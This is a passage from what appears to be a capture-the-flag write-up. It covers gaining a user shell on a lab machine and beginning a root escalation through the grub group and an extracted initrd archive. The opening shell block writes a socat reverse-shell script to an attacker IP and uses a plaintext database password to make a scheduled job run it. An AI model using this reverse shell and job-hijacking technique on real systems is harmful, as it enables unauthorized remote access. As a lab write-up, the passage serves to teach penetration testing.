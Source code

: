 ```
$ cd /var/cache/apache2/mod_cache_disk
$ echo -ne '!#/bin/bash\n\nsocat exec:"bash -li",pty,stderr,setsid,sigint,sane tcp:10.10.12.61:443' > check.sh; chmod +x check.sh
$ PW=1036913cf7d38d4ea4f79b050f171e9fbf3f5e
$ mysql -unestedflanders -p$PW -e "update neddy.config set option_value = '/var/cache/apache2/mod_cache_disk/check.sh' where id = 86;"
```

A minute later, `guly`'s shell appeared!


{% include image.html image_alt="e0502e47.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/e0502e47.png" %}


The `user.txt` is in `guly`'s home directory.


{% include image.html image_alt="9fe16106.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/9fe16106.png" %}


Moving on to `root`.

...

Notice that `guly` is in the `grub` group. This is certainly unusual. Searching the file system for everything to do with the `grub` group led to this.


{% include image.html image_alt="7b97fe9a.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/7b97fe9a.png" %}


That's a first. I'd never taken a good at the init ram disk (or `initrd`) before. Time to put on my forensic analyst hat. What kind of file am I dealing with?


{% include image.html image_alt="88a06e2b.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/88a06e2b.png" %}


Let's copy the file to `guly`'s home directory because the rest of the `tmpfs` are all `nosuid`, `nodev` and `noexec`.


{% include image.html image_alt="dcd33fdf.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/dcd33fdf.png" %}


So, `initrd.img` is a `cpio` archive. We can use `cpio` to extract it.


{% include image.html image_alt="15b2f294.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/15b2f294.png" %}


Searching for the string `guly` provides us with the next hint.


{% include image.html image_alt="74550885.png" image_src="/b3c66ec8-3480-4340-af69-0fd4aba980e9/74550885.png" %}

